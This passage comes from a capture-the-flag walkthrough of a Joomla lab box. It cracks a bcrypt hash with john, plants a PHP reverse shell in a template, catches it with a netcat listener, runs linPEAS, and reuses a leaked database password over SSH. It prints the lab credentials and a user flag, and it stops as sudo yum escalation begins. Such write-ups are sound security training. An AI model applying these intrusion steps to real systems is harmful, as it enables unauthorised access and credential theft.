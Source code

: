 The table has the user name **jonah** with hashed password `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`.

Using the `john`, lets crack the hashed password to get the plain text:

```bash
    $ john jonah_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:11 0.01% (ETA: 2020-07-10 05:35) 0g/s 86.17p/s 86.17c/s 86.17C/s twilight..mariel
    0g 0:00:01:44 0.05% (ETA: 2020-07-10 12:13) 0g/s 78.80p/s 78.80c/s 78.80C/s nutter..teamodios
    0g 0:00:01:45 0.05% (ETA: 2020-07-10 12:15) 0g/s 78.85p/s 78.85c/s 78.85C/s 101289..beckham23
    0g 0:00:01:48 0.05% (ETA: 2020-07-10 12:22) 0g/s 78.57p/s 78.57c/s 78.57C/s 474747..coucou
    0g 0:00:02:47 0.07% (ETA: 2020-07-10 13:23) 0g/s 76.82p/s 76.82c/s 76.82C/s Nathan..robinho
    spiderman123     (?)
    1g 0:00:09:31 DONE (2020-07-07 23:15) 0.001751g/s 82.02p/s 82.02c/s 82.02C/s thelma1..speciala
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
```

Login to the Joomla with the credentials jonah:spiderman123 and validate.

### Getting a reverse shell

- Login to Joomla, http://10.10.166.216/administrator  and navigate to extensions -> templates -> templates.
- Open the Protostar template and edit the index.php with the [php reverse shell code](http://pentestmonkey.net/tools/php-reverse-shell) by adding the attacker IP and listening port (say 4444). Save and exit.
- Open the netcat listener `nc -lnvp 4444`
- Execute the file by navigating to http://10.10.166.216/templates/protostar/index.php and the reverse shell will be established with id apache:apache.
- But this id don't have privileges to view either user or root flags. So we need to find any configurations on the system.


### Upgrade the user

- Download the [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) to /tmp directory.
- Execute the utility to see if there is any valuable information for exploiting.
- From the results, we can see the file `/var/www/html/configuration.php` has  passwords and we from `/etc/passwd`, we know the username is `jjameson`. Let's give a shot with `ssh` as port 22 is open!
- The login is successful with the password `nv5uz9r3ZEDzVjNu` and we can access the user flag `27a260fe3cba712cfdedb1c86d80442e`.

### Escalating the privileges to the root user!

- The user  jjameson is able to execute the `yum` without sudo password.
